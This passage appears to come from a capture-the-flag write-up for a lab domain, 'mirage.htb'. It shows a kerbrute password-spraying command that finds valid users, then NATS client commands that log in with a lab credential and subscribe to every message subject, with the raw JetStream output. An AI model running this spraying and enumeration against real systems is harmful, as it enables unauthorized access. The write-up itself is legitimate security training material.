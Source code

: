 
```python
!kerbrute -domain mirage.htb -users users -passwords passwords
```

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => Dev_Account_A
    [*] Valid user => Dev_Account_B
    [*] No passwords were discovered :'(


I sure was hopeful this would get me in the domain, but it's not a user password. This is likely just a password for the NATS service, so we'll start enumerating there.

The NATS client can connect with these credentials and can subscribe to the wildcard subject '>', but it only shows the connection events. The crazy thing here, is it looks like the endpoint still has some successful connections even with a broken DNS record, so I suspect the creator of the challenge has multiple connections in the scripts to do other things that need to function.
```sh
$ nats -s nats://nats-svc.mirage.htb:4222 rtt --user Dev_Account_A --password DEVNATSPASS
nats://nats-svc.mirage.htb:4222:

   nats://10.129.241.222:4222: 99.471799ms

$ nats -s nats://nats-svc.mirage.htb:4222 sub --user Dev_Account_A --password DEVNATSPASS '>'
09:00:26 Subscribing on > 
[#1] Received on "$JS.API.STREAM.INFO.auth_logs" with reply "_INBOX.j6wZjV4UCGWXa2aYzl4rL5.llRGb752"
nil body


[#2] Received on "_INBOX.j6wZjV4UCGWXa2aYzl4rL5.llRGb752"
{"type":"io.nats.jetstream.api.v1.stream_info_response","total":0,"offset":0,"limit":0,"config":{"name":"auth_logs","subjects":["logs.auth"],"retention":"limits","max_consumers":-1,"max_msgs":100,"max_bytes":1048576,"max_age":0,"max_msgs_per_subject":-1,"max_msg_size":-1,"discard":"new","storage":"file","num_replicas":1,"duplicate_window":120000000000,"compression":"none","allow_direct":true,"mirror_direct":false,"sealed":false,"deny_delete":true,"deny_purge":true,"allow_rollup_hdrs":false,"consumer_limits":{},"allow_msg_ttl":false,"metadata":{"_nats.level":"1","_nats.req.level":"0","_nats.ver":"2.11.3"}},"created":"2025-05-05T07:18:19.6244845Z","state":{"messages":5,"bytes":570,"first_seq":1,"first_ts":"2025-05-05T07:18:56.6788658Z","last_seq":5,"last_ts":"2025-05-05T07:19:27.2106658Z","num_subjects":1,"consumer_count":0},"cluster":{"leader":"NDTRMVIPHQ7PXHNBRGMELF4PA4D3H3X72ONZ46XCV7Y2Y5QZDVDEXYDI"},"ts":"2025-07-20T23:01:01.6504854Z"}


[#3] Received on "$JS.EVENT.ADVISORY.API"
{"type":"io.nats.jetstream.advisory.v1.api_audit","id":"x24wxd3uhF4Cx6EZX18JWD","timestamp":"2025-07-20T23:01:01.6504854Z","server":"NDTRMVIPHQ7PXHNBRGMELF4PA4D3H3X72ONZ46XCV7Y2Y5QZDVDEXYDI","client":{"start":"2025-07-20T16:01:01.6494356-07:00","host":"dead:beef::5298:fee0:e1d0:a97f","id":6101,"acc":"dev","user":"Dev_Account_A","name":"NATS CLI Version 0.2.2","lang":"go","ver":"1.41.1","rtt":521400,"server":"NDTRMVIPHQ7PXHNBRGMELF4PA4D3H3X72ONZ46XCV7Y2Y5QZDVDEXYDI","kind":"Client","client_type":"nats"},"subject":"$JS.API.STREAM.INFO.auth_logs","response":"{\"type\":\"io.nats.jetstream.api.v1.stream_info_response\",\"total\":0,\"offset\":0,\"limit\":0,\"config\":{\"name\":\"auth_logs\",\"subjects\":[\"logs.auth\"],\"retention\":\"limits\",\"max_consumers\":-1,\"max_msgs\":100,\"max_bytes\":1048576,\"max_age\":0,\"max_msgs_per_subject\":-1,\"max_msg_size\":-1,\"discard\":\"new\",\"storage\":\"file\",\"num_replicas\":1,\"duplicate_window\":120000000000,\"compression\":\"none\",\"allow_direct\":true,\"mirror_direct\":false,\"sealed\":false,\"deny_delete\":true,\"deny_purge\":true,\"allow_rollup_hdrs\":false,\"consumer_limits\":{},\"allow_msg_ttl\":false,\"metadata\":{\"_nats.level\":\"1\",\"_nats.req.level\":\"0\",\"_nats.ver\":\"2.11.3\"}},\"created\":\"2025-05-05T07:18:19.6244845Z\",\"state\":{\"messages\":5,\"bytes\":570,\"first_seq\":1,\"first_ts\":\"2025-05-05T07:18:56.6788658Z\",\"last_seq\":5,\"last_ts\":\"2025-05-05T07:19:27.2106658Z\",\"num_subjects\":1,\"consumer_count\":0},\"cluster\":{\"leader\":\"NDTRMVIPHQ7PXHNBRGMELF4PA4D3H3X72ONZ46XCV7Y2Y5QZDVDEXYDI\"},\"ts\":\"2025-07-20T23:01:01.6504854Z\"}"}
```
